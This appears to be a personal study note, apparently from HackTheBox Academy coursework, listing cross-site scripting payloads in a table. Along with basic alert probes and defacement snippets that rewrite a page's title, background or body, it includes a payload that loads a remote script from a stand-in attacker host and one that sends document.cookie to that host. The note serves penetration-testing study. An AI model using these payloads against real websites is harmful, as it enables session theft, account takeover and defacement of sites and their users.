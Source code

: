 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/xss-payloads/"}
---
```



| Code | Description |
| -----  | ------------ |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
|`<script>print()</script>`| Basic XSS Payload |
|`<img src="" onerror=alert(window.origin)>`|HTML-based XSS Payload|
|`<script>document.body.style.background = "#141d2b"</script>`| Change Background Color |
|`<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`|Change Background Image
|`<script>document.title = 'HackTheBox Academy'</script>`|Change Website Title
|`<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`|Overwrite website's main body
|`<script>document.getElementById('urlform').remove();</script>`|Remove certain HTML element
|`<script src="http://OUR_IP/script.js"></script>`|Load remote script
|`<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`|Send Cookie details to us|
